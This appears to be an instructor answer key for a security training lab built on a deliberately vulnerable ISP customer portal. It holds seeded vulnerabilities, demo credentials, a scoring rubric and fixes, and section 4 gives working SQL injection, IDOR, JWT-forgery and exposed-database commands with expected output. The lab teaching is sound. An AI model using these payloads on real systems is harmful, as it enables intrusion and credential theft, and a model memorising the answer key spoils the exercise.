


# Scenario 03 — NetLink ISP Customer Portal (Digital infrastructure)

## Instructor guide & answer key

This document is **not** for trainees. It contains the seeded vulnerabilities, expected CyberFort findings, **what a successful deliverable looks like**, scoring rubric, and remediation patches.

---

## 1. Scenario topology


PostgreSQL is **deliberately** bound to the host on 5432 so Nmap finds it. This is the only "infrastructure" vulnerability — all others are application-layer.

---

## 2. Seeded vulnerabilities (the answer key)

| # | Vulnerability                                                            | Where                                                  | Detected by             | ISO 27001:2022 Annex A control |
|---|--------------------------------------------------------------------------|--------------------------------------------------------|-------------------------|--------------------------------|
| 1 | PostgreSQL bound to `0.0.0.0:5432`                                       | `docker-compose.yml`                                   | **Nmap**                | A.8.21, A.8.22 |
| 2 | SQL injection in customer search                                         | `api/src/routes/customers.js` (string concatenation)   | **ZAP** + **Semgrep**   | A.8.28, A.8.26 |
| 3 | IDOR on invoice download (no ownership check)                            | `api/src/routes/invoices.js`                           | **ZAP** active + manual | A.5.15, A.5.18, A.8.3 |
| 4 | Session cookie without `HttpOnly` / `Secure`                              | `api/src/routes/auth.js`                               | **ZAP** passive          | A.8.5 |
| 5 | Hardcoded JWT signing secret                                             | `api/src/config.js`                                    | **Semgrep**             | A.5.17, A.8.4, A.8.24 |
| 6 | Hardcoded DB password and upstream API key in source                     | `api/src/config.js`                                    | **Semgrep**             | A.5.17, A.8.4 |
| 7 | `/api/admin/diagnostics` returns DB password and provisioning API key    | `api/src/routes/admin.js`                              | manual (after JWT forge) | A.5.10, A.8.3 |
| 8 | Outdated npm dependencies (express 4.16.0, jsonwebtoken 8.5.0, lodash 4.17.20, ejs 3.1.5, body-parser 1.18.0, cookie-parser 1.4.5, pg 8.7.1) | `api/package.json` | **OSV** | A.5.7, A.5.19, A.8.8 |
| 9 | Plaintext passwords in DB                                                | `db/init.sql`                                          | manual / SQLi data dump | A.5.17, A.8.24 |

The JWT-forgery flow (5 → 7) is the showpiece of this scenario — it demonstrates how one "boring" finding (a hardcoded secret in source) compounds with another "boring" finding (verbose admin diagnostics) into a complete compromise of customer data.

---

## 3. Demonstration credentials

| System | Username   | Password         | Role     |
|--------|------------|------------------|----------|
| Portal | `admin`    | `Admin123`       | admin    |
| Portal | `grid_ops` | `gridops!`       | staff    |
| Portal | `alice`    | `alice2024`      | customer |
| Portal | `bob`      | `bobcustomer`    | customer |
| Portal | `carol`    | `carolcorp`      | customer |
| Portal | `dean`     | `dean-net`       | customer |
| DB     | `netlink_app` | `NetLink-DB-2024` | superuser |

The trainee should **never need** the admin password — the whole point is forging an admin JWT after reading the source.

---

## 4. Verification commands &mdash; with expected output

### 4.1 Login as customer

```bash
curl -s -c /tmp/c.txt -X POST -d "username=bob&password=bobcustomer" \
    -o /dev/null -w "POST -> %{http_code}\n" http://<VM2>:3000/login
```

**Expected output:** `POST -> 302`

### 4.2 SQL injection — UNION leaks the users table

```bash
INJ="%' UNION SELECT id, username, password, role FROM users -- "
curl -s -b /tmp/c.txt "http://<VM2>:3000/api/customers/search?q=${INJ}" | jq
```

**Expected output (excerpt):**

```json
{
  "query": "%' UNION SELECT id, username, password, role FROM users -- ",
  "results": [
    { "id": 1, "name": "Alice Constantinou", "email": "alice@example.cy", "plan": "Fibre 1 Gbps" },
    { "id": 3, "name": "Carol Corp Trading Ltd", "email": "billing@carolcorp.cy", "plan": "Business 10 Gbps" },
    { "id": 3, "name": "alice", "email": "alice2024", "plan": "customer" },
    { "id": 1, "name": "admin", "email": "Admin123", "plan": "admin" }
  ]
}
```

The trailing rows are the leaked `users` table — usernames + plaintext passwords + roles.

### 4.3 IDOR — Bob reads Carol Corp's invoice #5

```bash
curl -s -b /tmp/c.txt http://<VM2>:3000/api/invoices/5 | jq
```

**Expected output:**

```json
{
  "id": 5,
  "customer_id": 3,
  "customer_name": "Carol Corp Trading Ltd",
  "email": "billing@carolcorp.cy",
  "amount_eur": "1290.00",
  "period": "2026-03",
  "status": "paid",
  "notes": "CONFIDENTIAL: linked to fibre lease, see contract NLT-2025-014."
}
```

### 4.4 JWT forgery → admin diagnostics

```bash
TOKEN=$(node -e "console.log(require('jsonwebtoken').sign(\
  {id:999,username:'attacker',role:'admin'},'netlink-jwt-2024',{expiresIn:'8h'}))")
curl -s -H "Cookie: token=$TOKEN" http://<VM2>:3000/api/admin/diagnostics | jq
```

**Expected output:**

```json
{
  "portal_version": "2.4.1",
  "node_version": "v18.20.8",
  "db": {
    "host": "db", "port": 5432, "user": "netlink_app",
    "password": "NetLink-DB-2024", "database": "netlink"
  },
  "upstream": { "provisioning_api_key": "pk_live_8b3f29ac41e7d52f04c8a91d7e2b4f6a" },
  "jwt_secret_first_chars": "netl..."
}
```

### 4.5 PostgreSQL exposed — external connection

```bash
PGPASSWORD='NetLink-DB-2024' psql -h <VM2> -p 5432 -U netlink_app -d netlink \
    -c "SELECT username, role FROM users LIMIT 4;"
```

**Expected output:**

```text
 username |   role
----------+----------
 admin    | admin
 grid_ops | staff
 alice    | customer
 bob      | customer
```

---

## 5. What each exploit looks like

### 5.1 NetLink sign-in page (clean baseline)


### 5.2 Customer dashboard for Bob


### 5.3 SQL injection — JSON response leaking the users table


### 5.4 IDOR — Bob receives Carol Corp's confidential invoice


### 5.5 JWT forgery → admin diagnostics


---

## 6. What a successful deliverable looks like in CyberFort

### 6.1 The risk register populated with NetLink findings



### 6.2 The ISO 27001 gap assessment, answered



---

## 7. Risk-register expected entries (detailed)

A complete trainee deliverable contains at least seven risks against this product:

1. PostgreSQL exposed on customer-facing subnet — H/H
2. SQL injection in customer search — H/H
3. IDOR on invoice download — H/H
4. Cookie missing HttpOnly/Secure — M/M
5. Hardcoded JWT secret + admin diagnostics chain — H/Critical
6. Hardcoded DB password and provisioning API key — M/H
7. Outdated npm dependencies — H/M

---

## 8. Scoring rubric (100 pts)

| Activity | Points |
|----------|--------|
| Portal registered as a product | 5 |
| Nmap scan + 5432 finding | 10 |
| ZAP scan launched | 5 |
| SQL injection verified and filed | 15 |
| IDOR verified and filed | 10 |
| JWT forgery executed against /api/admin/diagnostics | 20 |
| Semgrep scan + hardcoded-secret finding | 10 |
| OSV scan + ≥3 dep advisories filed | 10 |
| ISO 27001 assessment answered against the 10 Step-7 questions | 10 |
| Gap report PDF generated | 5 |

Pass threshold: 70.

---

## 9. Remediation patches

* **SQL injection** — parameterise the customer search:

  ```js
  const sql = "SELECT id, name, email, plan FROM customers " +
              "WHERE name ILIKE $1 OR email ILIKE $1 ORDER BY name LIMIT 50";
  const rows = (await c.query(sql, ["%" + q + "%"])).rows;
  ```

* **IDOR** — load `customer.user_id` and reject if it doesn't match `req.user.id`; allow admins.
* **JWT secret** — load `JWT_SECRET` from env via Secret Manager / Vault; rotate on every release.
* **Diagnostics endpoint** — never include secrets in the response body. Replace passwords with `"REDACTED"`.
* **Cookie flags** — `res.cookie("token", token, { httpOnly: true, secure: true, sameSite: "strict" })`.
* **PostgreSQL exposure** — remove `ports: 5432:5432` from `docker-compose.yml`.
* **Plaintext passwords** — bcrypt-hash with cost 12; migrate on first login.
* **Dependencies** — `npm audit fix`, then pin to currently-supported majors.

---

## 10. Reset between sessions

```bash
cd /srv/netlink-scenario/03-netlink-isp-digital-infra
docker compose down -v
docker compose up -d --build
```

The `-v` drops the Postgres volume so the seed re-runs.
